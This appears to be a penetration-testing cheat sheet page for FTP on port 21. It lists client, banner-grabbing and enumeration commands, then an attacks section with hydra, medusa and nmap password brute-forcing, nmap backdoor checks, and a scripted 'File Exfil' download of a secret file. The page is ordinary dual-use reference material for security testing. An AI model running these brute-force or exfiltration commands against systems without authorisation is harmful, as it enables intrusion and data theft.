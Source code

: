 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FTP (21)

## Usage

{% tabs %}
{% tab title="Connect" %}
```bash
# Connect to FTP server
ftp <target>

# No auto login (useful for scripts)
ftp -n <targetp> 

# Verbose mode         
ftp -v <target>          

# Log in as a specific user
ftp <user>@<target>
```
{% endtab %}

{% tab title="Banner Grabbing" %}
```bash
telnet <target> 21
nc <target> 21
```
{% endtab %}

{% tab title="Basic Commands" %}
```bash
# Basic FTP commands
ls                          # List files
dir                         # Detailed list of files
cd <directory>              # Change directory
lcd <local_directory>       # Change local directory
get <file>                  # Download file
mget <files>                # Download multiple files
put <file>                  # Upload file
mput <files>                # Upload multiple files
delete <file>               # Delete file
mkdir <directory>           # Create directory
rmdir <directory>           # Remove directory
pwd                         # Show remote current directory
bye / quit / exit           # Disconnect
```
{% endtab %}

{% tab title="Enumeration" %}
```bash
quote SYST                  # Get OS type
quote PASV                  # Check for passive mode
quote HELP                  # List server supported commands
quote STAT                  # Server status
quote FEAT                  # List server features
quote SITE HELP             # Site-specific commands
```
{% endtab %}

{% tab title="Transfer" %}
```bash
# Download an FTP directory
wget -r ftp://username:password@<target-ip>/path/to/directory/
```
{% endtab %}
{% endtabs %}

## Attacks

{% tabs %}
{% tab title="BFA" %}
```bash
# Using hydra
hydra -l <user> -P <passlist> ftp://<target> 

# Using medusa
medusa -h <target> -u <user> -P <passlist> -M ftp

# Using nmap 
nmap -p 21 --script ftp-brute <target>
```
{% endtab %}

{% tab title="Vulnerability Recon" %}
{% code overflow="wrap" %}
```bash
nmap -p 21 --script ftp-anon,ftp-bounce,ftp-vsftpd-backdoor,ftp-proftpd-backdoor <target>
```
{% endcode %}
{% endtab %}

{% tab title="File Exfil" %}
```bash
# File exfiltration / upload with command-line FTP
echo "open <target>" > script.txt
echo "user anonymous anonymous" >> script.txt
echo "binary" >> script.txt
echo "get secret.txt" >> script.txt
echo "bye" >> script.txt
ftp -n -s:script.txt
```
{% endtab %}
{% endtabs %}
